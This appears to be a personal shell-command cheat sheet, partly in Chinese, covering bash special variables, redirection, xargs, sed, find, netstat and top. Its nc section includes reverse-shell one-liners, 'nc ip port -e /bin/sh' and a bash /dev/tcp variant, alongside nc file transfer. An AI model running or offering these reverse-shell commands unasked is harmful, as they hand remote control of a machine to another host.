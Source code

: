 # special variables

|Variable | Description|
|---------|------------|
|$0|The filename of the current script.|
|$n|These variables correspond to the arguments with which a script was invoked. Here n is a positive decimal number corresponding to the position of an argument (the first argument is $1, the second argument is $2, and so on).|
|$#|The number of arguments supplied to a script.|
|$*|All the arguments are double quoted. If a script receives two arguments, $* is equivalent to $1 $2.|
|$@|All the arguments are individually double quoted. If a script receives two arguments, $@ is equivalent to $1 $2.|
|$?|The exit status of the last command executed.|
|$$|The process number of the current shell. For shell scripts, this is the process ID under which they are executing.|
|$!|The process number of the last background command.|

# 优秀网站
> https://explainshell.com/#

# redirect(重定向Piples)
## 重定向字符串到stdin
1. one-line
```shell
cat <<< "this is coming from stdin"
```
2. delimiter
```shell
cat << EOF
line1
line2
EOF
```
3. file
```shell
cat < filename
```

## grep

	很多重定向命令配合grep使用
```shell
grep -v # 反向查找不存在的字符串
```

## xargs

	example
1. find -name *.cpp | xargs file #显示所有文件信息

2. ls -l *.cpp | xargs wc -l  #统计当前目录下所有cpp的代码行数

3. grep -IUrl $'\r' . | xargs -I{} cp {} ../ # 将所有换行符为CRLF的文件copy到上一层目录

# shell command

## regular expressions
> https://www.tutorialspoint.com/unix/unix-regular-expressions.htm

> https://www.cyberciti.biz/faq/how-to-use-sed-to-find-and-replace-text-in-files-in-linux-unix-shell/

	以下软件通用的正则表达式
1. sed(stream edit)
2. ed
3. awk
4. grep
5. vi/vim

## 例子
1. sed的命令和vim的文本操作命令很像
```shell
# 在第一行行首插入abc,带i表示换行,不带i表示插入不换行
sed -i "1i s/^/abc/" input
sed -i "1 s/^/abc/" input
# 在第一行行尾插入
sed -i "1 s/$/abc/" input
# 默认只替换第一个匹配到的字符,-g全部替换
sed -i "s/abc/xyz/g" input
```

## sort
## unique
## du/df
## nc
1. 端口监听
```shell
# server
nc -lvp port
# client
nc address port
```

2. 反弹shell
```shell
# bash 也能反弹shell
# bash -i >& /dev/tcp/192.168.160.140/23333 0>&1
nc ip port -e /bin/sh
```

3. 文件传输
```shell
# server
nc -l 8099 > accept_filename
# client
nc  server_IP 8099 < send_filename
```

## screen

	功能和tmux重复，可以直接学习tmux.
	google cloud也通过tmux提供服务

## find
### -prune

	You pretty much always want the -o (logical OR) immediately after -prune, because that first part of the test (up to and including -prune) will return false for the stuff you actually want (ie: the stuff you don't want to prune out).
```shell
find [path] [conditions to prune] -prune -o \
            [your usual conditions] [actions to perform]

# example
find . -name filename -prune -o -name '*.foo' -print
find . -path pathname -prune -o -name '*.foo' -print
```
## netstat
```shell
netstat -antp
```

## unar

centos下解压rar文件
```shell
unar filename
```

## top

	以下按键区分大小写

* 按内存排序

	top界面按下M键(大写)
* 按CPU排序

	top界面按下P键(大写)

* cpu使用率展示方式

	t(小写)可再次按下切换多种样式
* 内存展示方式切换

	m(小写)可再次按下切换多种样式

* 内存单位切换 e(小写)
* 保存配置 W(大写)
* 显示管理 f(小写)
* 显示帮助 h(小写)
* 显示用于排序的列 x(小写)
* 杀死进程 k(小写)
* 彩色显示 z(小写)

1. 显示单个应用程序信息
```shell
top -p PID
```